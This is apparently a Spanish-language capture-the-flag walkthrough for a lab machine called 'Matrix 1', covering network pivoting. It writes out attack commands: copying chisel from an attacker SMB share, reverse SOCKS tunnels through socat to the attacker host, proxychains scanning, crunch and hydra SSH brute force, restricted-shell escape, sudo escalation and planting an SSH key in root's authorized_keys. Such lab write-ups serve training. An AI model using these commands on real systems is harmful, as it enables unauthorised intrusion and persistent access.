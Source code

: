 ```yaml
---
title: "5. Matrix 1"
description: "5. Matrix 1"
pubDate: 2025-05-20
---
```


[4. Dumbledore](../4-dumbledore)

# Fase de reconocimiento

## Buscamos hosts en la red

````
arp -a
````

No sale nada.
Borramos la tabla arp.

````
arp -d
````

Haremos descubrimiento con un bucle

````
for /L %a in (1,1,254) do @start ping <subnet5>.%a -w 100 -n 2>nul
````

````
arp -a
````

## Pivoting con Chisel

https://github.com/jpillora/chisel Nos descargamos la version Win_amd64
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Abrimos un server smb en el equipo atacante

````
smbserver.py smbFolder $(pwd) -smb2support
````

2. Copiamos chisel en la maquina Dumbledore

````
copy \\<ip2>\smbFolder\chisel.exe chisel.exe
````

3. Nos conectamos al servidor

````
./chisel client <ip2>:6543 R:9999:socks
````

4. Con socat en Nagini lo redirigimos al servidor

````
./socat TCP-LISTEN:6543, fork TCP:<ip1>:1234
````

Esto abrirá un túnel por la 9999 con la red del cliente
5. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
# strict_chain
Deshasteamos dynamic_chain
add abajo:
	socks5 127.0.0.1 9999
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip4' con proxycahins -comando-

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip5> 2>/dev/null
````

Buscaremos puertos con la ayuda de xargs para agilizar el escaneo

````
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip5> 2>&1 | grep "tcp open"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240424212524.png)

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 9999

## whatweb

````
proxychains whatweb http://<ip5>:31337
````

Encontramos una pista en base64 que nos lleva a otra pista en lenguaje brainfuck que contiene una contraseña a la que le faltan 2 caracteres.

# Fase de ataque

## Fuerza bruta

### Crunch

Crea diccionario de contraseñas para ataque de fuerza bruta

````
crunch 8 8 -t Kill0r%@ > passwords
````

````
crunch 8 8 -t Kill0r@% >> passwords
````

### Hydra

````
proxychains hydra -l guest -P passwords ssh://<ip5> -t 20 2>/dev/null
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240424215026.png)
\[-\] ==pwned!==

Nos encontramos ante una restricted bash, por lo que cargamos bash:

````
proxychains ssh guest@<ip5> bash
````

Ajustar Terminal

# Privilege Escalation

````
sudo -l
````

Tenemos todos los privilegios por lo que podemos ser root

````
sudo whoami
````

\[+\] ==pwned!==

# Pivoting

* Añadimos nuestra clave publica a /root/.ssh/authorized_keys

````
proxychains ssh root@<ip2>
````

# Resumen Técnicas

Crypto Challenge
Creating a password dictionary using crunch
EXTRA: Applying brute force with Hydra by going through a triple SOCKS5 proxy
Escaping from a restrictive shell
Abusing sudoers privilege (Privilege Escalation)

